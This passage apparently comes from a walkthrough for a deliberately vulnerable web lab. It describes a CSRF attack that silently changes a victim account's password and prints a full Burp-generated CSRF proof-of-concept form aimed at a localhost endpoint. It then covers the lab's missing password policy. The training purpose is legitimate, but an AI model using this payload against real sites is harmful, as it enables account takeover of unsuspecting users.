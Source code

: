 10. So as you can see in this html document we have used the form tag which will be  performing the action on ‘Pentester’ profile and the action which it will be performing is changing the password of ‘Pentester’ to ‘1’.  Save the html document with .html extension.

11. So what an attacker need to do  is that he has to send this html document via link or some way to the victims (Pentester) browser and as soon as the victims click on it this html document will get executed by changing the password of the victim account.

12. So when he will open this file,password will get updated

13. So now the new password for Pentester is ‘1’ and the Pentester does not even know about this, all he did was that he opened that file which can be sent via link or any other way to the victims system.

14. Keep in mind that in the real world application you have to know hidden parameters which are getting used for changing the password and also the url or endpoint of the user account or the UID given to the user.

Note: CSRF poc can be generated from burp pro as well
```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://localhost:4000/users/update/add_UI_of_victim" method="POST" enctype="multipart/form-data">
      <input type="hidden" name="name" value="add_User_name" />
      <input type="hidden" name="email" value="add_User_email" />
      <input type="hidden" name="password" value="test" />
      <input type="hidden" name="confirm&#95;password" value="test" />
      <input type="hidden" name="profileImage" value="" />
      <input type="hidden" name="websiteLink" value="" />
      <input type="hidden" name="imageURL" value="" />
      <input type="hidden" name="bio" value="" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```
15. Here the html document you created is in your localhost so just open that document via any browser you were working on and you will see the notification of the account getting updated and the password for your user will be changed.

16. Keep in mind that the url provides in form action of the html document the UID present there is for my user so change it to the UID provided for your user to see changes.

### No Password Policy <a name="noPass"></a>

1. Create a new account, On the password section enter any password like: “123”,”Abc” or  just copy paste the email used.
2. This is an example of no password policy being in place.
3. Some policies suggest or impose requirements on what type of password a user can choose, such as:
   - The use of both upper-case and lower-case letters (case sensitivity).
   - Inclusion of one or more numerical digits.
   - Inclusion of special characters, such as @, #, $.
   - Prohibition of words found in a password blacklist.
   - Prohibition of words found in the user's personal information.
   - Prohibition of use of company name or an abbreviation.
   - Prohibition of passwords that match the format of calendar dates, license plate numbers, telephone numbers, or other common numbers.
